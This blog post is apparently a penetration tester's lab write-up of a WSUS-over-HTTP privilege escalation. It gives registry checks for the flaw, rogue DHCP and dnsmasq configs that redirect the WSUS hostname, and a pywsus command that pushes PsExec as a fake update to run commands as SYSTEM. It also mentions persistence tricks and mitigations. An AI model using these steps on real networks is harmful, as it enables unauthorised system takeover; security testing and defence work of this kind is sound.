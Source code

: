 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate controlling DHCP
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

# Pre-requisites
- Being able to control the network's DHCP
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi"
  - An example of more "stealthy" attack would be to host a wifi network
- Having a DNS server (possibly on the same network)
- [pywsus](https://github.com/GoSecure/pywsus)
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable

# Detection
```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
  [...output...] http://wsusserver.domain.internal

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
  UseWUServer    REG_DWORD    0x1
```

If we get http (and NOT https) in the first output and 0x1 in the second, it means the system is vulnerable and we note down the domain name of the WSUS server.

This attack uses the fact that http requests are not authenticated. We also should be wary of people possibly sniffing DNS queries if they own the network as often the domain names for the WSUS servers are fairly recognizeable and could leak the targeted domain to spoof later on (finding out the domain name without access to the machine).

# Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT departent (again)).

## dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart isc-dhcp-server.service
```

## dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```


```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart dnsmasq
```

----

Now we verify that the Windows box, once connected to the same network (might require to disable and re-enable the interface) automatically gets an IP address and sets the DNS to our attacker box. This is important because changing the DNS settings or any adapter's settings requires admin privileges.

Opening a Powershell (or cmd) and running `ping wsusserver.domain.internal` should yield the IP of our attacker machine. If this is all correct we can proceed with the attack

# Attack

First we download the PsExec binary files from [Sysinternals](https://live.sysinternals.com/), it's important that the executable we're gonna use for the payload is signed by Microsoft and this is a great candidate.
Second, we git pull [pywsus](https://github.com/GoSecure/pywsus) which will emulate a WSUS server and serve a fake update with our payload. This may require the manual install of some libraries which I found perfectly available using `apt install`.

Once pulled and downloaded all that's left to do is giving a command and deploying the payload, for our example we will just write the output of `whoami` to a file in `C:\` but potentially this can be used to add a user as admin or achieve other types of persistence such as moving the `cmd.exe` in the place of `utilman.exe`

```
python3 pywsus.py -H 192.168.222.1 -p 8530 -e /path/to/PsExec64.exe -c '/accepteula /s cmd.exe /c "whoami > C:\\poc.txt"'
```

Then we either wait for Windows to check updates or we start the update check ourselves and wait for it to "install updates". You should find a file in `C:\poc.txt` containing `nt authority/system` confirming that we did in fact ran a command as System on the target machine.

# Mitigations
As suggested from the Github page of pywsus, here's some possible mitigations for this attack:
The three major ways of generating a certificate for a WSUS server are:
- Using an internal PKI for which a Root CA certificate is deployed on domain computers and a certificate signed by that Root CA is used to serve WSUS updates
- Purchasing a certificate signed by a third-party CA authority trusted in the Windows OS trust store
- Using a self-signed certificate and push a copy of this certificate on all domain computers using a GPO

As a possible IOC, the attacked computer will report extra updates or at least it keeps a list of them. Looking for non-approved ones would help.
